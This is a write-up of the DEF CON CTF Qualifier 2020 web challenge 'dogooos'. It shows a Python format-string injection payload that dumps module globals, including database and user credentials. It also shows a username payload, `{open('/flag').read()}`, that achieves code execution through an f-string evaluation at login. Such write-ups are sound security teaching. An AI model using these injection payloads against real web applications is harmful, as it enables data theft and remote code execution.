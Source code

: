 # DEF CON CTF Qualifier 2020 – dogooos

* **Category:** web
* **Points:** 151

## Challenge

> DogOOOs is a new website where members can rate pictures of dogs. We think there might still be a few bugs, can you check it out? In this challenge, the flag is located in the root directory of the server at /flag.
> 
> http://dogooos.challenges.ooo:37453
> 
> dogooos.challenges.ooo 37453
> 
> Files:
> 
> [dogooo_comments.py](dogooo_comments.py) a881e06d1d70809ffdc9149a5be5b5de6796542f2ed2225fd43d451fde2c8c78
> 
> [loaddata.py](loaddata.py) 0b57622ec86e02c0d8726538161dffb1e13ba1a18b7538354c12f762e4947c23

## Solution

The website allows you to upload and comment pictures of dogs.

There is an interesting endpoint at `/dogooo/runcmd` that contains a remote shell functionality, but it can't be used due to an `HTTP 502 Bad Gateway` error.

Several functionalities can be used only by authenticated users (i.e. `@login_required` annotations). There is an endpoint that can be used to create new users (i.e. `/dogooo/user/create`), but even this functionality requires the login.

A public functionality is the `/dogooo/deets/<postid>` that can be used to insert a new comment under a picture.

The comment is inserted with a two-step procedure:
1. the comment is inserted like a preview and showed into the webpage;
2. the content of the comment is strictly validated and inserted into the database.

Analyzing the code for the first step, in the [loaddata.py](loaddata.py) file, an interesting line of code can be found into `get_comments` function.

```python
def get_comments(self):
    out = ""
    for ccnt, cmt in enumerate(self.comments):
        fmt_cmt = cmt.comment.format(rating=self.__dict__)
        form_save = f"""
            <form action="/dogooo/deets/add/{self.id}" method="POST">
                <input type=hidden id="comment" name="comment" value='{fmt_cmt}'></textarea>
                <input type=hidden id="commenter" name="commenter" value='{cmt.author}'/>
                <input type=submit value="Save" />
            </form>
        """
        if cmt.preview:
            out += f"<ul class='square'>{fmt_cmt} - {cmt.author} {form_save} </ul>\n"
        else:
            out += f"<ul class='square'>{fmt_cmt} - {cmt.author}</ul>\n"

    return out
```

The interesting line is the following.

```
fmt_cmt = cmt.comment.format(rating=self.__dict__)
```

It seems that if you use a format string like `{rating}` into the comment text, then the content of `self.__dict__` can be printed.

Trying it, the following content will be printed into the preview webpage.

```html
<ul class='square'>{'id': 3, 'rating': 13, '_message': "This is Griffey. His St. Patrick's Day bow tie didn't arrive until this morning. Politely requests that everyone celebrate again. 13/10", 'pic_loc': 'images/img_3.jpg', 'author': 'demidog', 'comments': [<app.loaddata.Comment object at 0x7fc4eaadf160>, <app.loaddata.Comment object at 0x7fc4eaadf1f0>, <app.loaddata.Comment object at 0x7fc4eaadf1c0>, <app.loaddata.Comment object at 0x7fc4eaadf280>, <app.loaddata.Comment object at 0x7fc4eaadf3d0>, <app.loaddata.Comment object at 0x7fc4eaadf430>, <app.loaddata.Comment object at 0x7fc4eaadf490>, <app.loaddata.Comment object at 0x7fc4eaadf4f0>, <app.loaddata.Comment object at 0x7fc4eaadf550>, <app.loaddata.Comment object at 0x7fc4eaadf5b0>, <app.loaddata.Comment object at 0x7fc4eaadf610>, <app.loaddata.Comment object at 0x7fc4eaadf670>, <app.loaddata.Comment object at 0x7fc4eaadf6d0>, <app.loaddata.Comment object at 0x7fc4eaadf730>, <app.loaddata.Comment object at 0x7fc4eaadf790>, <app.loaddata.Comment object at 0x7fc4eaadf7f0>, <app.loaddata.Comment object at 0x7fc4eaadf850>, <app.loaddata.Comment object at 0x7fc4eaadf8b0>, <app.loaddata.Comment object at 0x7fc4eaadf910>, <app.loaddata.Comment object at 0x7fc4eaadf970>, <app.loaddata.Comment object at 0x7fc4eaadf9d0>, <app.loaddata.Comment object at 0x7fc4eaadfa30>, <app.loaddata.Comment object at 0x7fc4eaadfa90>, <app.loaddata.Comment object at 0x7fc4eaadfaf0>, <app.loaddata.Comment object at 0x7fc4eaadfb50>, <app.loaddata.Comment object at 0x7fc4eaadfbb0>, <app.loaddata.Comment object at 0x7fc4eaadfc10>, <app.loaddata.Comment object at 0x7fc4eaadfc70>, <app.loaddata.Comment object at 0x7fc4eaadfcd0>, <app.loaddata.Comment object at 0x7fc4eaadfd30>, <app.loaddata.Comment object at 0x7fc4eaadfd90>, <app.loaddata.Comment object at 0x7fc4eaadfdf0>, <app.loaddata.Comment object at 0x7fc4eaadfe50>, <app.loaddata.Comment object at 0x7fc4eaadfeb0>, <app.loaddata.Comment object at 0x7fc4eaadff10>, <app.loaddata.Comment object at 0x7fc4eaadff70>, <app.loaddata.Comment object at 0x7fc4eaadffd0>, <app.loaddata.Comment object at 0x7fc4eaae6070>, <app.loaddata.Comment object at 0x7fc4eaae60d0>, <app.loaddata.Comment object at 0x7fc4eaae6130>, <app.loaddata.Comment object at 0x7fc4eaae6190>, <app.loaddata.Comment object at 0x7fc4eaae61f0>, <app.loaddata.Comment object at 0x7fc4eaae6250>, <app.loaddata.Comment object at 0x7fc4eaae62b0>, <app.loaddata.Comment object at 0x7fc4eaae6310>, <app.loaddata.Comment object at 0x7fc4eaae6370>, <app.loaddata.Comment object at 0x7fc4eaae63d0>, <app.loaddata.Comment object at 0x7fc4eaae6430>, <app.loaddata.Comment object at 0x7fc4eaae6490>, <app.loaddata.Comment object at 0x7fc4eaae64f0>, <app.loaddata.Comment object at 0x7fc4eaae6550>, <app.loaddata.Comment object at 0x7fc4eaae65b0>, <app.loaddata.Comment object at 0x7fc4eaae6610>, <app.loaddata.Comment object at 0x7fc4eaae6670>, <app.loaddata.Comment object at 0x7fc4eaae66d0>, <app.loaddata.Comment object at 0x7fc4eaae6730>, <app.loaddata.Comment object at 0x7fc4eaae6790>, <app.loaddata.Comment object at 0x7fc4eaae67f0>, <app.loaddata.Comment object at 0x7fc4eaae6850>, <app.loaddata.Comment object at 0x7fc4eaae68b0>, <app.loaddata.Comment object at 0x7fc4eaae6910>, <app.loaddata.Comment object at 0x7fc4eaae6970>, <app.loaddata.Comment object at 0x7fc4eaae69d0>, <app.loaddata.Comment object at 0x7fc4eaae6a30>, <app.loaddata.Comment object at 0x7fc4eaae6a90>, <app.loaddata.Comment object at 0x7fc4eaae6af0>, <app.loaddata.Comment object at 0x7fc4eaae6b50>, <app.loaddata.Comment object at 0x7fc4eaae6bb0>, <app.loaddata.Comment object at 0x7fc4eaae6c10>, <app.loaddata.Comment object at 0x7fc4eaae6c70>, <app.loaddata.Comment object at 0x7fc4eaae6cd0>, <app.loaddata.Comment object at 0x7fc4eaae6d30>, <app.loaddata.Comment object at 0x7fc4eaae6d90>, <app.loaddata.Comment object at 0x7fc4eaae6df0>, <app.loaddata.Comment object at 0x7fc4eab30af0>]} - author
```

As you can read [here](https://lucumr.pocoo.org/2016/12/29/careful-with-str-format/), this code can be abused to read secret data.

The following code can be used to access *globals* objects.

```python
{rating[comments][0].__class__.__init__.__globals__}
```

It will give the following output.

```html
<ul class='square'>{'__name__': 'app.loaddata', '__doc__': None, '__package__': 'app', '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7fc4ed1f4670>, '__spec__': ModuleSpec(name='app.loaddata', loader=<_frozen_importlib_external.SourceFileLoader object at 0x7fc4ed1f4670>, origin='./app/loaddata.py'), '__file__': './app/loaddata.py', '__cached__': './app/__pycache__/loaddata.cpython-38.pyc', '__builtins__': {'__name__': 'builtins', '__doc__': "Built-in functions, exceptions, and other objects.\n\nNoteworthy: None is the `nil' object; Ellipsis represents `...' in slices.", '__package__': '', '__loader__': <class '_frozen_importlib.BuiltinImporter'>, '__spec__': ModuleSpec(name='builtins', loader=<class '_frozen_importlib.BuiltinImporter'>), '__build_class__': <built-in function __build_class__>, '__import__': <built-in function __import__>, 'abs': <built-in function abs>, 'all': <built-in function all>, 'any': <built-in function any>, 'ascii': <built-in function ascii>, 'bin': <built-in function bin>, 'breakpoint': <built-in function breakpoint>, 'callable': <built-in function callable>, 'chr': <built-in function chr>, 'compile': <built-in function compile>, 'delattr': <built-in function delattr>, 'dir': <built-in function dir>, 'divmod': <built-in function divmod>, 'eval': <built-in function eval>, 'exec': <built-in function exec>, 'format': <built-in function format>, 'getattr': <built-in function getattr>, 'globals': <built-in function globals>, 'hasattr': <built-in function hasattr>, 'hash': <built-in function hash>, 'hex': <built-in function hex>, 'id': <built-in function id>, 'input': <built-in function input>, 'isinstance': <built-in function isinstance>, 'issubclass': <built-in function issubclass>, 'iter': <built-in function iter>, 'len': <built-in function len>, 'locals': <built-in function locals>, 'max': <built-in function max>, 'min': <built-in function min>, 'next': <built-in function next>, 'oct': <built-in function oct>, 'ord': <built-in function ord>, 'pow': <built-in function pow>, 'print': <built-in function print>, 'repr': <built-in function repr>, 'round': <built-in function round>, 'setattr': <built-in function setattr>, 'sorted': <built-in function sorted>, 'sum': <built-in function sum>, 'vars': <built-in function vars>, 'None': None, 'Ellipsis': Ellipsis, 'NotImplemented': NotImplemented, 'False': False, 'True': True, 'bool': <class 'bool'>, 'memoryview': <class 'memoryview'>, 'bytearray': <class 'bytearray'>, 'bytes': <class 'bytes'>, 'classmethod': <class 'classmethod'>, 'complex': <class 'complex'>, 'dict': <class 'dict'>, 'enumerate': <class 'enumerate'>, 'filter': <class 'filter'>, 'float': <class 'float'>, 'frozenset': <class 'frozenset'>, 'property': <class 'property'>, 'int': <class 'int'>, 'list': <class 'list'>, 'map': <class 'map'>, 'object': <class 'object'>, 'range': <class 'range'>, 'reversed': <class 'reversed'>, 'set': <class 'set'>, 'slice': <class 'slice'>, 'staticmethod': <class 'staticmethod'>, 'str': <class 'str'>, 'super': <class 'super'>, 'tuple': <class 'tuple'>, 'type': <class 'type'>, 'zip': <class 'zip'>, '__debug__': True, 'BaseException': <class 'BaseException'>, 'Exception': <class 'Exception'>, 'TypeError': <class 'TypeError'>, 'StopAsyncIteration': <class 'StopAsyncIteration'>, 'StopIteration': <class 'StopIteration'>, 'GeneratorExit': <class 'GeneratorExit'>, 'SystemExit': <class 'SystemExit'>, 'KeyboardInterrupt': <class 'KeyboardInterrupt'>, 'ImportError': <class 'ImportError'>, 'ModuleNotFoundError': <class 'ModuleNotFoundError'>, 'OSError': <class 'OSError'>, 'EnvironmentError': <class 'OSError'>, 'IOError': <class 'OSError'>, 'EOFError': <class 'EOFError'>, 'RuntimeError': <class 'RuntimeError'>, 'RecursionError': <class 'RecursionError'>, 'NotImplementedError': <class 'NotImplementedError'>, 'NameError': <class 'NameError'>, 'UnboundLocalError': <class 'UnboundLocalError'>, 'AttributeError': <class 'AttributeError'>, 'SyntaxError': <class 'SyntaxError'>, 'IndentationError': <class 'IndentationError'>, 'TabError': <class 'TabError'>, 'LookupError': <class 'LookupError'>, 'IndexError': <class 'IndexError'>, 'KeyError': <class 'KeyError'>, 'ValueError': <class 'ValueError'>, 'UnicodeError': <class 'UnicodeError'>, 'UnicodeEncodeError': <class 'UnicodeEncodeError'>, 'UnicodeDecodeError': <class 'UnicodeDecodeError'>, 'UnicodeTranslateError': <class 'UnicodeTranslateError'>, 'AssertionError': <class 'AssertionError'>, 'ArithmeticError': <class 'ArithmeticError'>, 'FloatingPointError': <class 'FloatingPointError'>, 'OverflowError': <class 'OverflowError'>, 'ZeroDivisionError': <class 'ZeroDivisionError'>, 'SystemError': <class 'SystemError'>, 'ReferenceError': <class 'ReferenceError'>, 'MemoryError': <class 'MemoryError'>, 'BufferError': <class 'BufferError'>, 'Warning': <class 'Warning'>, 'UserWarning': <class 'UserWarning'>, 'DeprecationWarning': <class 'DeprecationWarning'>, 'PendingDeprecationWarning': <class 'PendingDeprecationWarning'>, 'SyntaxWarning': <class 'SyntaxWarning'>, 'RuntimeWarning': <class 'RuntimeWarning'>, 'FutureWarning': <class 'FutureWarning'>, 'ImportWarning': <class 'ImportWarning'>, 'UnicodeWarning': <class 'UnicodeWarning'>, 'BytesWarning': <class 'BytesWarning'>, 'ResourceWarning': <class 'ResourceWarning'>, 'ConnectionError': <class 'ConnectionError'>, 'BlockingIOError': <class 'BlockingIOError'>, 'BrokenPipeError': <class 'BrokenPipeError'>, 'ChildProcessError': <class 'ChildProcessError'>, 'ConnectionAbortedError': <class 'ConnectionAbortedError'>, 'ConnectionRefusedError': <class 'ConnectionRefusedError'>, 'ConnectionResetError': <class 'ConnectionResetError'>, 'FileExistsError': <class 'FileExistsError'>, 'FileNotFoundError': <class 'FileNotFoundError'>, 'IsADirectoryError': <class 'IsADirectoryError'>, 'NotADirectoryError': <class 'NotADirectoryError'>, 'InterruptedError': <class 'InterruptedError'>, 'PermissionError': <class 'PermissionError'>, 'ProcessLookupError': <class 'ProcessLookupError'>, 'TimeoutError': <class 'TimeoutError'>, 'open': <built-in function open>, 'quit': Use quit() or Ctrl-D (i.e. EOF) to exit, 'exit': Use exit() or Ctrl-D (i.e. EOF) to exit, 'copyright': Copyright (c) 2001-2020 Python Software Foundation.
All Rights Reserved.

Copyright (c) 2000 BeOpen.com.
All Rights Reserved.

Copyright (c) 1995-2001 Corporation for National Research Initiatives.
All Rights Reserved.

Copyright (c) 1991-1995 Stichting Mathematisch Centrum, Amsterdam.
All Rights Reserved., 'credits':     Thanks to CWI, CNRI, BeOpen.com, Zope Corporation and a cast of thousands
    for supporting Python development.  See www.python.org for more information., 'license': Type license() to see the full license text, 'help': Type help() for interactive help, or help(object) for help about object.}, 'connect': <function Connect at 0x7fc4ed0c4700>, 'f': <class 'fstring.fstring.fstring'>, 'clean': <function clean at 0x7fc4ed09f310>, 'json': <module 'json' from '/usr/lib/python3.8/json/__init__.py'>, 'post_results': ((3, "This is Griffey. His St. Patrick's Day bow tie didn't arrive until this morning. Politely requests that everyone celebrate again. 13/10", 2, 13, 'images/img_3.jpg', 2, 'demidog', 'princesses_password'),), 'jf': <_io.TextIOWrapper name='/dbcreds.json' mode='r' encoding='UTF-8'>, 'jdata': {'db_user': 'dogooo', 'db_pass': 'dogZgoneWild'}, 'db_user': 'dogooo', 'db_pass': 'dogZgoneWild', 'Comment': <class 'app.loaddata.Comment'>, 'Post': <class 'app.loaddata.Post'>, 'get_posting': <function get_posting at 0x7fc4ed1fe940>, 'UserMixin': <class 'flask_login.mixins.UserMixin'>, 'save_comment': <function save_comment at 0x7fc4eb2819d0>, 'get_all_posts': <function get_all_posts at 0x7fc4eb281af0>, 'create_post_entry': <function create_post_entry at 0x7fc4eab0c0d0>, 'User': <class 'app.loaddata.User'>, 'user_create_entry': <function user_create_entry at 0x7fc4eab1c040>, 'get_login': <function get_login at 0x7fc4eab1c280>, 'get_user': <function get_user at 0x7fc4eab1c310>} - author
```

From this data you can spot user credentials:
* username: `demidog`;
* password: `princesses_password`;

So now you can authenticate into the system and **you can create new users**.

During the authentication, an interesting behavior can be spot. The `login` method ([dogooo_comments.py](dogooo_comments.py)) uses the *f-Strings* functionality of Python 3, [which is a very powerful formatting syntax](https://realpython.com/python-f-strings/) and can be used to call methods.

```python
@app.route("/dogooo/login", methods=["GET", "POST"])
def login():
    if request.method == 'POST':
        username = request.form['username']
        password = request.form['password']
        user = get_login(username, password)
        if user is not None:
            login_user(user)
            return redirect(request.host_url[:-1] + f"/dogooo/show?message=Welcom+back+{user.get_user_info()}")

        else:
            return redirect(request.host_url[:-1] + f"/dogooo/show?message=Login+FAILED")
    else:
        return abort(401)
```

The interesting line is the following.

```python
return redirect(request.host_url[:-1] + f"/dogooo/show?message=Welcom+back+{user.get_user_info()}")
```

The `get_user_info` method of the `User` class into [loaddata.py](loaddata.py) uses the *f-Strings* functionality on the `username` field.

```python
from fstring import fstring as f
...   ...   ...
def get_user_info(self):
    return f(self.username)
```

So you can create a new user with a malicious username that could trigger a RCE during the authentication. The malicious username is: `{open('/flag').read()}`.

Authenticating with this user, you will be redirect to the following address.

```
http://dogooos.challenges.ooo:37453/dogooo/show?message=Welcom+back+OOO%7Bdid%20you%20see%20my%20dog%7D
```

Which contains the flag in the URL.

![flag.png](flag.png)

So the flag is the following.

```
OOO{did you see my dog}
```